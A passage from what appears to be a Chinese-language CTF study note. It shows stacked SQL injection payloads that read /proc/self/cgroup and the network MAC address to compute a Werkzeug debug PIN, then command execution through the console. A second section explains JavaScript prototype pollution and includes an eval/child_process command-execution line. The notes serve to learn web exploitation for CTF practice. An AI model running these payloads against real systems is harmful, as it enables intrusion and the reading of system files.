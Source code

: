 ```sql
;create table bbb(name varchar(1000));load data local infile "/sys/class/net/eth0/address" into table ctf.bbb;%23 #读MAC
union select 1,2,3,4,(select group_concat(name) from ctf.bbb);%23  #读表
```
MAC删去：转换为十进制
```sql
;create table cc(name varchar(1000));load data local infile "/proc/self/cgroup" into table ctf.cc;%23
union select 1,2,3,4,(select group_concat(name) from ctf.cc);%23
```
注：如果过滤了self可以用任意pid替换，比如1<br />新版本是按 /etc/machine-id、/proc/sys/kernel/random/boot_id 顺序 从中读到一个值后立即break，然后和/proc/self/cgroup中的id值拼接，使用拼接的值来计算pin码<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1710162571599-34392ed8-5292-482d-962d-2a13fd04366a.png#averageHue=%232b2d37&clientId=ued75cd50-e471-4&from=paste&height=157&id=u4251dd77&originHeight=314&originWidth=1016&originalType=binary&ratio=1&rotation=0&showTitle=false&size=176236&status=done&style=none&taskId=u73e952fc-d3bf-47ff-bf9d-a3876a26667&title=&width=508)![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1710162574491-14506079-0103-439a-aea8-e0646c1bd9d5.png#averageHue=%23242323&clientId=ued75cd50-e471-4&from=paste&height=768&id=u85201803&originHeight=1536&originWidth=2568&originalType=binary&ratio=1&rotation=0&showTitle=false&size=333294&status=done&style=none&taskId=u6a7d9d8d-1764-4888-8eb4-67674cdd3ad&title=&width=1284)<br />算出来是一样的，这个提示因为我本地环境docker里/proc/self/cgroup为空，所以可以直接置空，算出pin码<br />剩下就是在console中执行命令了<br />os.system('ls')是没有回显的<br />使用os.popen('ls /').read()就可以
<a name="Uc2fv"></a>
## JS原型链污染
参考：[Node.js 常见漏洞学习与总结 - 先知社区](https://xz.aliyun.com/t/7184?time__1311=n4%2BxnD0GDtKx9lFD%2FiT4BK%2B4kDgDWq942%2BD&alichlgref=https%3A%2F%2Fcn.bing.com%2F)<br />首先了解一下js的基础漏洞<br />Node.js中的chile_process.exec调用的是/bash.sh
```javascript
eval(require('child_process').exec('ls'));  //js任意命令执行
```
       在javascript，每一个实例对象都有一个prototype属性,即__proto__，prototype 属性可以向对象添加属性和方法。这个实例属性指向对象的原型对象(即原型)。可以通过以下方式访问得到某一实例对象的原型对象
```javascript
objectname["__proto__"]
objectname.__proto__
objectname.constructor.prototype
```
       原型链是一种允许 JavaScript 对象从其他对象继承属性和方法的机制。在 JavaScript 中，每个对象都有一个指向其他对象的原型属性。当你访问一个对象的属性或方法时，JavaScript 会首先在该对象上查找。如果找不到，就在对象的原型中查找。如果还是找不到，就在原型的原型上找，如此循环，直到原型链的末端。<br />      当属性或方法被添加到对象的原型链中时，就会发生原型链污染。当使用向内置对象（如 Object.prototype 或 Array.prototype）添加属性或方法的库或模块时，就会发生这种情况。如：
```javascript
Array.prototype.forEach = function() {
  // ...
}
```
```javascript
Object.prototype.myMethod = function() {
  // ...
}

//使用Object.create() 创建对象来避免问题
```
```javascript
var o = {a: 1};
// o对象直接继承了Object.prototype
// 原型链：
// o ---> Object.prototype ---> null

var a = ["yo", "whadup", "?"];
// 数组都继承于 Array.prototype
// 原型链：
// a ---> Array.prototype ---> Object.prototype ---> null

function f(){
  return 2;
```